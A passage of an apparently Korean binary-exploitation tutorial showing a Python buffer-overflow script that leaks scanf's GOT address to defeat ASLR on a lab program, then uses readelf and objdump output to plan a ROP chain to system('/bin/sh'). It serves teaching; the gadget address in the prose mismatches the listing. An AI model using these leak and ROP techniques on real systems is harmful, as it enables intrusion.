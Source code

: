 ``` python
print `readline(out_r)`     # Hello World!\n
print `readline(out_r)`     # Hello ASLR!\n
payload  = "A"*36           # buf padding
payload += p32(0x8048326)   # ret addr (puts@plt + 6)
payload += p32(0xdeadbeef)  # ret after puts
payload += p32(0x804a014)   # scanf@got
writeline(s, payload)
out = readline(out_r)     # memory leakage of scanf@got
print `out`
scanf_addr = u32(out[:4])
print "scanf @ " + hex(scanf_addr)
```
```
$ python example4_leak.py
'Hello World!\r\n'
'Hello ASLR!\r\n'
'\xc0\xe0\xe2\xf7\r\n'
scanf @ 0xf7e2e0c0
```
스크립트를 실행하면 example4로부터 scanf의 주소를 구해 출력하는 것을 볼 수 있다.
구한 scanf의 주소와 libc 베이스 주소로부터  scanf ㅎ마수 주소까지의 오프셋을 이용해 libc의 베이스 주소를 구할 수 있다.
```
libc 베이스 주소 = scanf 주소 - libc 베이스 주소로부터 scanf 주소까지의 오프셋
```
readelf를 이용해 libc.so.6 파일에서 scanf 함수의 오프셋을 구할 수 있다.
```
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep scanf
   424: 0005c0c0   258 FUNC    GLOBAL DEFAULT   13 __isoc99_scanf@@GLIBC_2.7
```
```
libc 베이스 주소 = scanf 주소 - 0x5c0c0
```
leak된 libc.so.6 라이브러리 주소를 이용해 셸을 얻어보자.
익스플로잇에서는 ROP를 통해 scanf함수를 호출해 scanf@got에는 system 함수의 주소를, scanf@got+4에는 "/bin/sh" 문자열을 입력한 후 scanf@plt를 호출하여ㅏ  최종적으로 system("/bin/sh")를 실행한다.
ROP 체인에서 함수를 호출할 때, 다음 체인을 실행하기 위해 esp 레지스터를 호출한 함수의 인자 다음으로 가리키게 해주어야 한다.
objdump를 이용해 pop; pop; ret 코드 가젯을 찾아보도록 하자.
```
$ objdump -d ./example4 | grep -A3 pop
 804830d:	5b                   	pop    %ebx
 804830e:	c3                   	ret    
Disassembly of section .plt:
--
 8048362:	5e                   	pop    %esi
 8048363:	89 e1                	mov    %esp,%ecx
 8048365:	83 e4 f0             	and    $0xfffffff0,%esp
 8048368:	50                   	push   %eax
--
 8048518:	5b                   	pop    %ebx
 8048519:	5e                   	pop    %esi
 804851a:	5f                   	pop    %edi
 804851b:	5d                   	pop    %ebp
 804851c:	c3                   	ret    
 804851d:	8d 76 00             	lea    0x0(%esi),%esi
--
 8048536:	5b                   	pop    %ebx
 8048537:	c3                   	ret    
 ```
 objdump의 결과를 보면 0x4851a 주소에 pop; pop; ret 코드 가젯이 존재하는 것을 알 수 있다.
 ```
 #!/usr/bin/python
'''
example4.py
'''
import struct
 ```